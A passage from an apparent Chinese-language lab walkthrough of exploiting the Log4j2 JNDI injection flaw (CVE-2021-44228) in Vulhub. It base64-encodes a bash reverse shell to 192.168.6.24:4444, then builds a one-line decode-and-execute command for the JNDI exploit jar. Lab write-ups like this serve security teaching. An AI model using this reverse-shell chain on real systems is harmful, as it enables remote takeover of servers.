 `拿到权限。`

存在特殊字符，对脚本进行 base64 编码

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx
```

![对脚本进行 base64 编码](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%AF%B9%E8%84%9A%E6%9C%AC%E8%BF%9B%E8%A1%8C%20base64%20%E7%BC%96%E7%A0%81.png)

echo 命令输出 base64 字符串传递给 base64 -d 进行解码

> 目标为 Linux 的一般都可以

```
┌──(root㉿kali)-[~]
└─# echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx | base64 -d
```

解码后的内容传递给 bash 即可执行

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx | base64 -d | bash
```

整条命令合并到一起

```
bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx}|{base64,-d}|bash"
```

| 操作 | 描述                                                |
| ---- | --------------------------------------------------- |
| -c   | 可以执行一长串命令                                  |
| { }  | 用于声明其中内容是一个整体，并且在当前 shell 下执行 |

**将脚本加入到 LDAP 或 RMI 启动执行的命令中**

> 将 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 上传到 Kali 系统的 /root 目录下
